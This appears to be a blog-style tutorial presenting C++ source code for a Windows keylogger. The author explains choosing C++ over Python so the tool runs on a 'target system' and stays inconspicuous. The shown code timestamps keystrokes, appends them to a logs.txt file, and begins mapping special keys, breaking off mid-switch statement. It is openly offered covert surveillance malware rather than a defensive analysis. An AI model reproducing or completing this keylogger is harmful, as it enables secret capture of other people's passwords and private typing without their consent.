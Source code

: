 ## Tools

To build this keylogger, I used C++17. A quick search on Google (or any other preferred search engine) on “how to make a keylogger” can yield numerous “tutorials” using Python, a very popular scripting language in the Hack-o-sphere and world in general.

I think making a keylogger in Python is a waste of time. Now put down your pitchforks and listen to me.

First off, Python is an interpreted language, so we would need a guarantee that Python is actually installed on the target system. How many non-tech people even have Python installed? Next, a Python keylogger is more resource intensive than a keylogger implemented in C++. In an application where being inconspicuous is a factor, it pays to choose the more efficient path. Though I haven’t exactly optimized this code, the very fact that I’m doing it in C++ gives mefun the leisure of loosening my reigns a bit, because I know that the g++ compiler itself is a very optimized one. After all, since Python is built on C++, why not just make the thing in C++? And so, picking up my sword, I began my travels to the world of curly-braces strongly-typed spaghetti.

## The Actual Thing

Let’s talk about the actual code.

```cpp
#include <windows.h>
#include <fstream>
#include <thread>
#include <chrono>
#include <ctime>
#include <string>

std::string currentDateTime() {
    std::time_t t { std::time(nullptr) };
    std::tm* now { std::localtime(&t) };
    char buffer[128];
    strftime(buffer, sizeof(buffer), "%m-%d-%Y %X", now);
    return buffer;
}

void writeToLog(auto text) {
    std::ofstream fileStream;
    fileStream.open("logs.txt", std::fstream::app);
    fileStream << "[" << currentDateTime() << "] > " << text << "\n";
    fileStream.close();
}

bool writeKey(unsigned char keyChar) {
    switch(keyChar) {
        case 1:           break;
        case 2:           break;
        case 8:           writeToLog("[BKSPC]");      break;
        case 13:          writeToLog("[RET]");        break;
        case 32:          writeToLog("[SPACE]");      break;
        case 18:          writeToLog("[ALT]");        break;
        case VK_TAB:      writeToLog("[TAB]");        break;
        case VK_SHIFT:    writeToLog("[SHIFT]");      break;
        case VK_CONTROL:  writeToLog("[CTRL]");       break;
        case VK_ESCAPE:   writeToLog("[ESC]");        break;
        case VK_END:      writeToLog("[END]");        break;
        case VK_HOME:     writeToLog("[HOME]");       break;
        case VK_LEFT:     writeToLog("[LEFT KEY]");   break;
        case VK_UP:       writeToLog("[UP KEY]");     break;
        case VK_RIGHT:    writeToLog("[RIGHT KEY]");  break;
        case VK_DOWN:     writeToLog("[DOWN KEY]");   break;

```